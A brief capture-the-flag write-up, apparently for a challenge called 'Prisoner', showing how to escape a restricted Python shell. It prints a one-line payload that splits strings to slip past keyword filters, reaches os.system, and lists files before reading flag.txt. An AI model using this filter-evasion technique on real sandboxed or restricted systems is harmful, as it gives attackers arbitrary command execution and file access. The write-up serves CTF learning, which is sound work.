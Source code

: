 # Prisoner

Blocked in a python shell
Crtl+D and then 
```python
print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('ls .'))
```
show the files in the directory.
Replace ls . par 'cat flag.txt' and ok.